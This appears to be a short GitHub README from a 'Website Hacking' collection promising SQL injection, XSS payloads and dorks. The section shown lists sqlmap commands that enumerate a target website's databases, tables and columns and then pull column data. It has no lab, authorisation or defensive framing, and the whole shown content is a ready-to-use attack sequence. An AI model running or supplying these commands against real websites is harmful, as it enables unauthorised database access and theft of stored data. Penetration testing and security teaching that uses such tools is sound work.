 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

# Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' -D name.db --tables

sqlmap -u 'Website' -D name.db -T name.table --columns

sqlmap -u 'Website' -D name.db -T name.table -C name.columns

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
